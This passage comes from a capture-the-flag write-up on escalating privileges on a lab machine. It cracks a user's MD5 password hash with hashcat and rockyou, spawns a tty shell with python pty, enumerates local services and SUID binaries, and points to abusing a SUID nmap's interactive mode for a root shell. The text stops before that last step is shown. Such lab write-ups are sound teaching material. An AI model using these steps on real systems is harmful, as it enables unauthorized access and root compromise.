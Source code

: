 ## 4. Privesc 1 : hashcat

In `/home` we see the home directory of `robot` user, containing `key-2-of-3.txt` and `password.raw-md5`. As we do not currently have read access to the `key-2-of-3.txt` file, we can assume that we need to crack the hash for `robot`'s password. We copy the hash to the attack box for cracking with hashcat and the rockyou wordlist :

```console
┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 "HASH" rockyou.txt
...snip...
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

c3fcd3d76192e4007dfb496cca67e13b:PASSWORD
...snip...
```
Use the discovered password to switch to the `robot` user (you'll need to spawn a tty shell with `python -c 'import pty; pty.spawn("/bin/sh")'` or similar) and cat `key-2-of-3.txt` for the second flag.

## 5. Privesc 2 : SUID

From here, we can assume that we need to privesc to root for the final flag. We can perform the usual hunt for privesc vectors here - internal port and service enumeration, cronjobs, SUIDs / SGIDs, etc. We had already seen the `/phpmyadmin/` route in the gobuster scan, and with `ss -tlp` we find the mysql instance, as well as ftp and [monit](https://mmonit.com/monit/) servers :

```console
$ ss -tlp
State      Recv-Q Send-Q      Local Address:Port          Peer Address:Port   
LISTEN     0      32              127.0.0.1:ftp                      *:*       
LISTEN     0      128             127.0.0.1:2812                     *:*       
LISTEN     0      80              127.0.0.1:mysql                    *:*       
LISTEN     0      128                    :::https                   :::*       
LISTEN     0      128                    :::http                    :::* 
```

Attempting to connect to these services doesn't give much luck - no mysql or ftp client is installed in the machine, and `robot` cannot start the ssh service required to provided access from the attack machine through port forwarding. Luckily the search for SUID/SGID binaries is more fruitful : 

```console
robot@linux:/$ find / -perm /4000 2>/dev/null
...snip...
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
...snip...
```
nmap stands out here. [GTFObins](https://gtfobins.github.io/gtfobins/nmap/) provides a number of options for priviledged actions with nmap, including an interactive shell sessions for versions 2.02-5.21. After checking the version of the nmap binary on the machine, we use `--interactive` mode to spawn a root shell :
